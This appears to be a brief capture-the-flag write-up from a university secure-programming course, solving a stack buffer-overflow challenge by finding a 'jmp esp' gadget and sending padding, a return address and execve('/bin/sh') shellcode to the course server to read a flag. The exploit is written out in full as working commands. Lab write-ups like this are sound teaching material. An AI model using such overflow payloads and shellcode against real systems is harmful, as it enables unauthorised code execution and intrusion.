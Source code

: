 try to find jmp esp (\xff \xe4)

```
$ objdump -D  BOF2| grep jmp

 80485a0:       ff e4                   jmp    *%esp
```

exploit = garbage + EIP + shellcode

```
$ perl -E 'say "a"x24 ."\xa0\x85\x04\x08". "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > test

$ cat test - | secprog.cs.nctu.edu.tw 10102
cat /home/bof/flag2
SECPROG{HelloJmpToSHELLCODE}
```


Appendix:

shellcode from here
http://shell-storm.org/shellcode/files/shellcode-827.php
